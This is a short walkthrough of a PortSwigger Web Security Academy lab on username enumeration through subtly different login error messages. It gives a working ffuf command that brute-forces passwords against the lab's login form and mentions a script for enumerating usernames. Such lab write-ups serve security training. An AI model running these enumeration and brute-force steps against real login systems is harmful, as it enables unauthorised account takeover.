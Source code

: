 # Username enumeration via subtly different responses

**Lab Url**: [https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)

![Lab Description](img/lab-description.png)

## Objective

The lab is subtly vulnerable to username enumeration and password brute-force attacks. To solve this lab, we must find a valid username and password and access the user's account page.

## Solution

The lab produces the same generic error for all `usernames` except the one that is valid. Use the **Python script** (*`./enumerate_username`*) with your `lab ID` to filter valid `username`.

After finding a valid `username` use the below script to extract the password.

```bash
ffuf -X POST \
    -u https://YOUR-LAB-ID.web-security-academy.net/login \
    -d "username=your-found-username&password=FUZZ" \
    -w passwords.txt \
    -mc 302
```

**Now log in with the returned username and password to solve the lab.**

![Lab Solved](img/lab-solved.png)
